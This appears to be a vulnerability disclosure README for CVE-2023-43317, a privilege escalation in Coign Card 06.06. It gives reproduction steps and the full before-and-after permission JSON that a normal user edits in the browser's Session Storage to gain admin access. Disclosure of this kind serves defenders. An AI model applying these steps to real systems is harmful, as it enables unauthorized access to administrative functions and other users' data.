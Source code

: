 # CVE-2023-43317


A normal user can elevate their privileges via the userPermissionsLIst parameter in Session Storage component. to gain unauthorized access to administrative-level resources and features. This could lead to unauthorized data access, data modification, and other actions that are typically restricted to administrators.

- Vulnerable Product:- [Coign Card](https://coigncard.com)
- Vulnerable Version:- 06.06
- References:- https://nvd.nist.gov/vuln/detail/CVE-2023-43317

## Steps To Reproduce

1. Log in with a normal user account.
2. Right-click on the web page and select “Inspect Element” to open the developer tools.
3. In the developer tools, navigate to the “Application” tab.
4. Expand the “Session Storage” section.
5. In the Session Storage, you can see the “userPermissionsList” object, which contains a JSON array of user permissions.
The initial permissions for a normal user look like this:
```bash
[{"permissionId":1,"permissionName":"CanGetApplicants"},{"permissionId":5,"permissionName":"CanGetUsers"},{"permissionId":8,"permissionName":"CanGetApplications"},{"permissionId":9,"permissionName":"CanResendEmails"},{"permissionId":18,"permissionName":"CanGetCustomers"},{"permissionId":22,"permissionName":"CanGetUserActivity"}]
```
7. Modify the permissions in the Session Storage to gain admin-level access:
```bash
[{"permissionId":1,"permissionName":"CanGetApplicants"},{"permissionId":2,"permissionName":"CanCreateApplicants"},{"permissionId":3,"permissionName":"CanUpdateApplicants"},{"permissionId":4,"permissionName":"CanManageAccounts"},{"permissionId":5,"permissionName":"CanGetUsers"},{"permissionId":6,"permissionName":"CanCreateUsers"},{"permissionId":7,"permissionName":"CanUpdateUsers"},{"permissionId":8,"permissionName":"CanGetApplications"},{"permissionId":9,"permissionName":"CanResendEmails"},{"permissionId":10,"permissionName":"CanGetDocuments"},{"permissionId":11,"permissionName":"CanUploadDocuments"},{"permissionId":12,"permissionName":"CanCreateIndividualInvitations"},{"permissionId":14,"permissionName":"CanQueryIndividualInvitations"},{"permissionId":15,"permissionName":"CanGetBulkInvitations"},{"permissionId":16,"permissionName":"CanUploadBulkInvitationsFile"},{"permissionId":17,"permissionName":"CanUpdateFormStatus"},{"permissionId":18,"permissionName":"CanGetCustomers"},{"permissionId":19,"permissionName":"CanResendInvitations"},{"permissionId":20,"permissionName":"CanResendEvaluations"},{"permissionId":21,"permissionName":"CanResendManualReviews"},{"permissionId":22,"permissionName":"CanGetUserActivity"},{"permissionId":23,"permissionName":"CanGetDeliveredDocuments"},{"permissionId":24,"permissionName":"CanGetBillingTables"},{"permissionId":25,"permissionName":"CanGetBillingTableHistoricalRecords"},{"permissionId":26,"permissionName":"CanGetBillingTableDraftUpdateRecords"},{"permissionId":27,"permissionName":"CanGetFeedBacks"},{"permissionId":28,"permissionName":"CanUpdateBillingTables"},{"permissionId":29,"permissionName":"CanUpdateUserEmail"},{"permissionId":30,"permissionName":"CanGetTemplates"},{"permissionId":31,"permissionName":"CanResendApplicationEmail"},{"permissionId":32,"permissionName":"CanDeleteUpcomingUpdates"},{"permissionId":33,"permissionName":"CanCreatePolls"},{"permissionId":34,"permissionName":"CanGetPolls"},{"permissionId":35,"permissionName":"CanUpdatePolls"},{"permissionId":36,"permissionName":"CanNotifyIndividualinvitations"},{"permissionId":37,"permissionName":"CanSendInvitationEmail"}]
```
7. After modifying the permissions, refresh the page.
8. You will gain unauthorized access to administrative-level resources and features.


## Write-Up
https://amjadali110.medium.com/a-easy-vertical-privilege-escalation-via-session-storage-cfa9f558c94
